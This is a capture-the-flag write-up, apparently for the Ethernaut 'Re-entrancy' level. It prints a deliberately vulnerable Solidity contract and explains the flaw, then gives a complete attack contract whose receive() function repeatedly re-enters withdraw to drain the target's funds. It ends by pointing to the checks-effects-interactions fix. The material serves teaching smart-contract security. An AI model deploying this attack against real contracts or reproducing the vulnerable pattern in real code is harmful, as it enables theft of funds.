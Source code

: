 # Re-entrancy 🔄

Tenth Challenge description is as follows:

The goal of this level is for you to steal all the funds from the contract.

Things that might help:

- Untrusted contracts can execute code where you least expect it.
- Fallback methods
- Throw/revert bubbling
- Sometimes the best way to attack a contract is with another contract.
- See the Help page above, section "Beyond the console"
Code:

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.12;

import 'openzeppelin-contracts-06/math/SafeMath.sol';

contract Reentrance {
  
  using SafeMath for uint256;
  mapping(address => uint) public balances;

  function donate(address _to) public payable {
    balances[_to] = balances[_to].add(msg.value);
  }

  function balanceOf(address _who) public view returns (uint balance) {
    return balances[_who];
  }

  function withdraw(uint _amount) public {
    if(balances[msg.sender] >= _amount) {
      (bool result,) = msg.sender.call{value:_amount}("");
      if(result) {
        _amount;
      }
      balances[msg.sender] -= _amount;
    }
  }

  receive() external payable {}
}

```

### Resolution
The goal of the level is to completely drain the contract. This level give us A LOT of hints of what's going on, and portraits one of the most popular vulnerabilities in Solidity: The Re-entrancy attack.

There's plenty of documentation online about re-entrancy vulnerability, I recommend having a good read to understand all the intricacies of calling an external untrusted contract before modifying state variables of our contract. But in a nutshell, the vulnerability is exploited when a contract calls something outside of the scope of the contract (another contract) and this external contract before updating state variables (common case, before updating user balances), and in this external contract, there's a fallback function to actually call back the original contract function "re-entering" into the contract on a loop until some condition is met.

Let's use the `Reentrance` contract to illustrate what you just read:

- 1) Contract `Reentrance` has a function `withdrawal` that makes an external call: `msg.sender.call{value:_amount}("");`
- 2) This `msg.sender` could be another contract with a `receive` or `fallback` function defined that calls back again (re-enter) the `Reentrance` contract calling `withdraw` again.
- 3) Now suppose, this contract has a balance on the `Reentrance` contract, because the external call is made BEFORE the balances update, this contract could be drained by exploiting this vulnerability!

Let's deploy an attack contract to try to exploit it:

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.7.0;

// Interface of Reentrant contract to make it easier on the code
interface IReentrancy {
    function donate(address _to) external payable;
    function withdraw(uint _amount) external;
}

contract AttackReentrancy__Ethernaut {

    // Reentrant contract
    IReentrancy public reentrance;
    
    // Amount to donate and subsequentally withdraw
    uint private amountToSend;

    // Constructor: Pass the instance contract address and some ETH 
    constructor(address reentrancyContractAddr) public payable {
        reentrance = IReentrancy(reentrancyContractAddr);
        amountToSend = msg.value;
    }

    // Execute donate first
    function donateToReentrant() public payable {
        reentrance.donate{ value: amountToSend }(address(this));
    }

    // Execute withdraw on reentrance -> will end up calling receive()
    function executeWithdrawalOnVictim() public {
      reentrance.withdraw(amountToSend);
    }

    // Method that will execute in the Reentrant
    receive() external payable {
        if (address(reentrance).balance > 0)  {
          reentrance.withdraw(amountToSend);
        }
    }
}

```

Deploy the contract, call donate, then withdrawal and drain the `Reentrance` contract! 💥 

More on how to avoid and Checks-Effects-Interaction Pattern [here](https://docs.soliditylang.org/en/develop/security-considerations.html#use-the-checks-effects-interactions-pattern)

## License

[MIT](https://choosealicense.com/licenses/mit/)